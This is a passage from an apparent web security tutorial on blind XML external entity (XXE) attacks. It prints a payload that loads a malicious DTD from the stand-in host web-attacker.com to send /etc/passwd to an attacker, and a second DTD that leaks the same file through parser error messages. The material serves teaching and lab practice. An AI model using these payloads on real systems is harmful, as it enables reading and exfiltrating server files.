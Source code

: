 This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

For example, the attacker might serve the malicious DTD at the following URL: `http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser
to fetch the external DTD from the attacker's server and interpret it  inline. The steps defined within the malicious DTD are then executed, 
and the `/etc/passwd` file is transmitted to the attacker's server.

[Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)

### Exploiting blind XXE to retrieve data via error messages

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.

[](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)
